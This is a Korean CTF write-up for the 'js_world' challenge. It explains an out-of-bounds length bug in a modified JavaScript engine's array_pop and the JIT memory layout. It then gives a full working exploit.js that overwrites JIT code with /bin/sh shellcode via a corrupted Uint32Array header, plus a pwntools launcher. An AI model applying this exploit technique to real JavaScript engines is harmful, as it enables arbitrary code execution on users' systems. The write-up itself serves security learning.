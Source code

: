 ```yaml
---
layout: post
title: "js_world"
comments : true
category : War Game
---
```


# 문제
***

### OOB 취약점
Array의 length 값을 속여서 해당 length 만큼의 메모리를 read/write 할 수 있는 취약점이다. (해당 영역에 read/write 권한이 있는 경우) <br/>
javascript 엔진 코드 안의 Array length의 최대 크기는 0xffffffff으로 정의되어 있다. 
<br/><br/>

### JIT (Just-In-Time Compilation), Dynamic Translation
C, C++ 에서 하는 것처럼 프로그램을 실행하기 전에 처음 한 번 컴파일하는 대신, 프로그램을 실행하는 시점에 필요한 부분을 즉석해서 컴파일하는 방식 <br/>
속도 향상을 위해서 자주 쓰이는 코드를 캐싱하여 메모리에 올려 놓음으로써 같은 함수가 여러 번 불릴 때 기계어 코드를 반복해서 생성하는 것을 방지한다. <br/>
이 때 주목해야 할 점은 해당 메모리 영역에 read/write/exec 권한이 모두 부여된다는 점이다.


### 변경 코드와 원래 코드를 diff한 결과는 다음과 같다.
```c++
JBBool
js::array_pop(JSContext *cx, unsigned argc, Value *vp)
{
    ...
    if(index==0)
    {
        args.rval().setUndefined();
    }
    else
    {
        ...
    }
    if(obj->isNative() && obj->getDenseInitializedLength() > index)
        obj->setDenseInitializedLength(index);
}
```

즉, 변경된 코드에서는 index (Array의 length를 저장하고 있는 변수)가 0일 때 Array의 index에 별다른 처리를 해주지 않는다. 따라서 Array의 length가 0일 때 pop을 하면 length 값을 0xffffffff으로 만들 수 있어서 OOB 취약점을 이용할 수 있다. 

## exploit 방법
1. Uint32Array의 헤더를 찾기 위해서 for문을 반복하면 해당 코드가 JIT 때문에 메모리 영역에 올라간다.
2. Uint32Array 헤더를 통해서 Uint32Array의 데이터가 저장된 곳을 (heap 영역) 뒤지다 보면 JIT 주소가 저장되어 있는 것을 볼 수 있다.
3. OOB 취약점을 이용해서 힙 영역에서 JIT 주소를 읽어온다.
4. OOB 취약점을 이용해서 Uint32Array의 헤더를 변경해서 Uint32Array의 헤더에서 데이터 영역의 주소를 가리키고 있는 부분을 JIT 주소로 변경한다.
5. Uint32Array를 통해서 JIT 영역의 코드를 쉘 코드로 덮어쓴다.


__주의할 점 1__ <br/>
Array를 만들 때 데이터를 크게 생성하면 데이터가 저장되는 영역이 헤더와 멀리 떨어진 곳에 할당되어서 Uint32Array의 헤더를 못 찾을 수도 있다.
<br/>

> Array의 데이터 크기를 크게 할당할 떄 메모리 구조
```
0x100 OOB Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x200 Uint32Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x300 Uint32Array의 데이터
       .....
0x1000 OOB Array의 데이터
```

> Array의 데이터 크기를 작게 할당할 때 메모리 구조
```
0x100 OOB Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x120 OOB Array의 데이터
       .....
0x200 Uint32Array의 헤더(배열의 크기, 데이터 포인터 포함)
0x300 Uint32Array의 데이터
```

__주의할 점 2__ <br/>
Array를 이용해서 메모리에 저장되어 있는 값을 read할 때 hex값으로 출력되지 않는다. 메모리에 저장되어 있느 값을 float 형으로 읽어온다. javascript의 array들은 해당 값의 raw 버젼인 binary 데이터를 다루기 위해서 Arraybuffer를 제공한다. (object.buffer를 통해서 binary 데이터를 뽑을 수 있다.)

# 풀이
***
__exploit.js__
```
function d_to_i2(d){
        var a = new Uint32Array(new Float64Array([d]).buffer);
        return [a[1], a[0]];
}

function i2_to_d(x){
    return new Float64Array(new Uint32Array([x[1], x[0]]).buffer)[0];
}

function i2_to_hex(i2){
               var v1 = ("00000000" + i2[0].toString(16)).substr(-8);
               var v2 = ("00000000" + i2[1].toString(16)).substr(-8);
        return [v1,v2];
}

function p_i2(d){
        print(i2_to_hex(d_to_i2(d))[0]+i2_to_hex(d_to_i2(d))[1])
}

var oob_Array=new Array(1)
oob_Array[0]=0x41414141
var uint32_Array=new Uint32Array(0x3333)
for(var i=0; i<0x3333; i=i+1) {uint32_Array[i]=0x4141414141}

oob_Array.pop()
oob_Array.pop()


uint32_baseaddress_offset=0
for (i=0; i<0x10000; i++)
{
       if(oob_Array[i]==0x3333)
       {
               print('uInt32Array found');
               uint32_baseaddress_offset=i+2
               break;
       }
}


var uint32_addr=(d_to_i2(oob_Array[uint32_baseaddress_offset]));

oob_Array[uint32_baseaddress_offset] = i2_to_d([uint32_addr[0],uint32_addr[1]+(0x3333*4)+0x104])

p_i2(oob_Array[uint32_baseaddress_offset])


oob_Array[uint32_baseaddress_offset] = i2_to_d([uint32_Array[1],uint32_Array[0]])

p_i2(oob_Array[uint32_baseaddress_offset])

var shellcode="\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x90"
for(i=0;i<shellcode.length;i+=4)
{
        var tmp=shellcode[i+3]+shellcode[i+2]+shellcode[i+1]+shellcode[i];
        var shell=tmp[0].charCodeAt() << 24 | tmp[1].charCodeAt() << 16 | tmp[2].charCodeAt() <<8 | tmp[3].charCodeAt()
        uint32_Array[i/4]=shell;        
}

for (i=0; i<0x10000; i++)
{
       if(oob_Array[i]==0x3333)
       {
               print('uInt32Array found');
               uint32_baseaddress_offset=i+2
               break;
       }
}
```
__exploit.py__
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/round5/js_world/js"

p=process(file_path)

f=open("/home/sungyun/round5/js_world/exploit.js",'rb')

data=f.read()

p.sendline(data)

p.interactive()
```

